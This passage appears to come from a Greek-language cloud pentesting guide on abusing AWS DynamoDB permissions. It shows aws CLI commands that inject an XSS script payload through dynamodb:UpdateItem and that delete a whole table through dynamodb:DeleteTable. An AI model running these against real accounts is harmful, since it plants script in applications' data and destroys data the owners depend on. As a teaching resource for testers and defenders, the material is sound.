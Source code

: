 **Πιθανές Επιπτώσεις:** Εκμετάλλευση περαιτέρω ευπαθειών/παρακάμψεων με την ικανότητα προσθήκης/τροποποίησης δεδομένων σε έναν πίνακα DynamoDB

### `dynamodb:UpdateItem`

Αυτή η άδεια επιτρέπει στους χρήστες να **τροποποιούν τα υπάρχοντα χαρακτηριστικά ενός αντικειμένου ή να προσθέτουν νέα χαρακτηριστικά σε ένα αντικείμενο**. Δεν **αντικαθιστά** ολόκληρο το αντικείμενο; μόνο ενημερώνει τα καθορισμένα χαρακτηριστικά. Εάν το πρωτεύον κλειδί δεν υπάρχει στον πίνακα, η λειτουργία θα **δημιουργήσει ένα νέο αντικείμενο** με το καθορισμένο πρωτεύον κλειδί και θα ορίσει τα χαρακτηριστικά που καθορίζονται στην έκφραση ενημέρωσης.

{% tabs %}
{% tab title="XSS Example" %}
{% code overflow="wrap" %}
```bash
## Update item with XSS payload
aws dynamodb update-item --table <table_name> \
--key file://key.json --update-expression "SET Description = :value" \
--expression-attribute-values file://val.json
### With key.json:
{
"Id": {
"S": "1000"
}
}
### and val.json
{
":value": {
"S": "<script>alert(1)</script>"
}
}
```
{% endcode %}
{% endtab %}

{% tab title="Παράδειγμα AI" %}
```bash
aws dynamodb update-item \
--table-name ExampleTable \
--key '{"Id": {"S": "1"}}' \
--update-expression "SET Attribute1 = :val1, Attribute2 = :val2" \
--expression-attribute-values '{":val1": {"S": "NewValue1"}, ":val2": {"S": "NewValue2"}}' \
--region <region>
```
{% endtab %}
{% endtabs %}

**Πιθανές Επιπτώσεις:** Εκμετάλλευση περαιτέρω ευπαθειών/παρακάμψεων με την ικανότητα προσθήκης/τροποποίησης δεδομένων σε έναν πίνακα DynamoDB

### `dynamodb:DeleteTable`

Ένας επιτιθέμενος με αυτή την άδεια μπορεί να **διαγράψει έναν πίνακα DynamoDB, προκαλώντας απώλεια δεδομένων**.
```bash
aws dynamodb delete-table \
--table-name TargetTable \
--region <region>
```
**Πιθανές επιπτώσεις**: Απώλεια δεδομένων και διακοπή υπηρεσιών που εξαρτώνται από τον διαγραμμένο πίνακα.
